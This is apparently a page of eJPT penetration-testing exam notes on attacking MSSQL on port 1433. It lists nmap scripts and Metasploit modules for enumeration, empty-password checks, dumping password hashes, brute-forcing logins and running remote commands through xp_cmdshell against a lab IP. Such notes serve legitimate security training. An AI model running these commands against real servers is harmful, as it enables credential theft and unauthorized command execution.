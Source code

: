 ## MSSQL - p1433

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### Nmap

Check for service details.
```
nmap 10.10.10.1 -p 1433 --script ms-sql-info
```
Check for more service/server information.
```
nmap 10.10.10.1 -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
```
Check if access with an empty password is enabled.
```
nmap 10.10.10.1 -p 1433 --script ms-sql-empty-password
```
Retrieve informations, usernames, privileges and database configuration info.
```
nmap 10.10.10.1 -p 1433 --script ms-sql-query --script-args mssql.username=username, mssql.password=password, ms-sql-query.query=“Select * from master..syslogins” -oN output.txt
```
Perform a dump of all usernames and passwords.
```
nmap 10.10.10.1 -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=username, mssql.password=password
```
Execute remote commands.
```
nmap 10.10.10.1 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=username, mssql.password=password, ms-sql.cmdshell.cmd=“ipconfig”

nmap 10.10.10.1 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=username, mssql.password=password, ms-sql-cmdshell.cmd=“type c:\flag.txt”
```
Perform a brute-force attack on the service.
```
nmap 10.10.10.1 -p 1433 --script ms-sql-brute --script-args userdb=commonusers.txt, passdb=commonpassword.txt
```

### METASPLOIT
```
msfconsole auxiliary scanner/mssql/mssql_login
msfconsole auxiliary admin/mssql/mssql_enum
msfconsole auxiliary admin/mssql/mssql_enum_sql_login
msfconsole auxiliary admin/mssql/mssql_exec
msfconsole auxiliary admin/mssql/mssql_enum_domain_accounts
```
